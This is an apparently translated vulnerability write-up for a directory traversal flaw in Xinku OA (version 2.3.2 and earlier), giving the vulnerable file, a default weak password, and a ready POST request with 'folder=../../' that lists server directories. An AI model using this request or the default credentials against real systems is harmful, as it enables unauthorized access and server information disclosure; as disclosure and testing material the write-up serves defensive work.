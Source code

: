 # Xinku OA beifenAction.php background directory traversal vulnerability

## Vulnerability Description

The getfilerows method is called in the OA beifenAction.php file, resulting in a directory traversal vulnerability. The attacker can obtain file information on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Call OA <= 2.3.2</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637826393127-40e04bac-5443-4dd6-b5d4-b2e8e7e63606.png)

Among them, there are several users with weak passwords by default 123456

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637826384345-ad90b308-7431-4a96-9baa-6808129967ea.png)

The vulnerable file is `webmain/system/beifen/beifenAction.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637826483632-dc07740e-e0e5-4b6e-8ce3-e24ad1398db9.png)

View the `getfilerows()` method in `include/chajian/fileChajian.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637826756244-21762aa4-adbe-453a-86e3-452e767df30e.png)

This method traverses the file name in the directory and outputs it. After logging in, sends the request packet

```python
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637826832637-432df24d-758c-41c0-885e-ba6f79354ce4.png)